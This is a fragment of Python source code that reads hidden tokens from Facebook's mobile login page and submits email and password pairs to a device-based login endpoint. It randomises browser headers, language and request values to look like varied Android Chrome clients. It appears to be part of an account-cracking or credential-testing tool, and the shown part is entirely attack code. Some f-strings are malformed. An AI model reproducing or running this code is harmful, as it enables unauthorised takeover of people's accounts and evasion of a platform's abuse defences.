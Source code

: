 			date = {'m_ts': re.search('name="m_ts" value="(.*?)"',str(link.text)).group(1),'li': re.search('name="li" value="(.*?)"',str(link.text)).group(1),'try_number': '0','unrecognized_tries': '0','email': idf,'prefill_contact_point': '','prefill_source': '','prefill_type': '','first_prefill_source': '','first_prefill_type': '',
			'had_cp_prefilled': 'false',
			'had_password_prefilled': 'false',
			'is_smart_lock': 'true',
			'bi_xrwh': re.search('name="bi_xrwh" value="(.*?)"',str(link.text)).group(1),'pass': pw,'jazoest': re.search('name="jazoest" value="(.*?)"',str(link.text)).group(1),'lsd': re.search('name="lsd" value="(.*?)"',str(link.text)).group(1),
			"__dyn": "",
			"__csr": "",
			"__req": rc(["1","2","3","4","5","6","7","8","9","0","a","b","c","d","f","g","h","i","j","k","l","m","n","n","o","p","q"]),
			"__a": "",
			"__user": "0",
			"_fb_noscript": "true"}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in link.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			ver = rc(["id-ID,id;q=0.9","ms-MY,ms;q=0.9","fr_FR,fr;q=0.9","jv-ID,jv;q=0.9"])  
			head = {"Host": url,
			"content-length": f"str(rr(2000,2999))",
			"sec-ch-ua": f'"Not.A/Brand";v="{str(rr(8,20))}", "Chromium";v="{str(rr(110,114))}", "Google Chrome";v="{str(rr(110,114))}"',
			"sec-ch-ua-mobile": "?1",
			"user-agent": ua,
			"viewport-width": f"str(rr(400,989)",
			"content-type": "application/x-www-form-urlencoded",
			"x-fb-lsd": re.search('name="lsd" value="(.*?)"',str(link.text)).group(1),
			"sec-ch-ua-platform-version": f'"{str(rr(7,14))}.0.0"',
			"x-asbd-id": "129477",
			"x-requested-with": "XMLHttpRequest",
			"sec-ch-ua-full-version-list": f'"Not.A/Brand";v="{str(rr(8,20))}.0.0.0", "Chromium";v="{str(rr(110,114))}.0.{str(rr(2000,5999))}.{str(rr(10,399))}", "Google Chrome";v="{str(rr(110,114))}.0.{str(rr(2000,5999))}.{str(rr(10,399))}"',
			"sec-ch-prefers-color-scheme": "light",
			"sec-ch-ua-platform": '"Android"',
			"accept": "*/*",
			"origin": "https://"+url,
			"sec-fetch-site": "same-origin",
			"sec-fetch-mode": "cors",
			"sec-fetch-dest": "empty",
			"referer": ref,
			"accept-encoding": "gzip, deflate, br",
			"accept-language": ver}		
			links = rc([f"https://{url}/login/device-based/login/async/?api_key=266809897176355&auth_token=9e74c10df302b317fb711eeb7b478dc4&skip_api_login=1&signed_next=1&next=https%3A%2F%2F{url}%2Fv7.0%2Fdialog%2Foauth%3Fapp_id%3D266809897176355%26cbt%3D1694956577376%26channel_url%3Dhttps%253A%252F%252Fstaticxx.facebook.com%252Fx%252Fconnect%252Fxd_arbiter%252F%253Fversion%253D46%2523cb%253Df26dedb14c84ab%2526domain%253Dwww.signupgenius.com%2526is_canvas%253Dfalse%2526origin%253Dhttps%25253A%25252F%25252Fwww.signupgenius.com%25252Ff1e4e76b83b13a%2526relation%253Dopener%26client_id%3D266809897176355%26display%3Dtouch%26domain%3Dwww.signupgenius.com%26e2e%3D%257B%257D%26fallback_redirect_uri%3Dhttps%253A%252F%252Fwww.signupgenius.com%252Fregister%26locale%3Den_US%26logger_id%3Df2de2085933efa%26origin%3D2%26redirect_uri%3Dhttps%253A%252F%252Fstaticxx.facebook.com%252Fx%252Fconnect%252Fxd_arbiter%252F%253Fversion%253D46%2523cb%253Df2785f21139e0cc%2526domain%253Dwww.signupgenius.com%2526is_canvas%253Dfalse%2526origin%253Dhttps%25253A%25252F%25252Fwww.signupgenius.com%25252Ff1e4e76b83b13a%2526relation%253Dopener%2526frame%253Df380e29c31da6c%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%26scope%3Dpublic_profile%252Cemail%26sdk%3Djoey%26version%3Dv7.0%26refsrc%3Ddeprecated%26ret%3Dlogin%26fbapp_pres%3D0%26tp%3Dunspecified&refsrc=deprecated&app_id=266809897176355&cancel=https%3A%2F%2Fstaticxx.facebook.com%2Fx%2Fconnect%2Fxd_arbiter%2F%3Fversion%3D46%23cb%3Df2785f21139e0cc%26domain%3Dwww.signupgenius.com%26is_canvas%3Dfalse%26origin%3Dhttps%253A%252F%252Fwww.signupgenius.com%252Ff1e4e76b83b13a%26relation%3Dopener%26frame%3Df380e29c31da6c%26error%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied&lwv=100"])
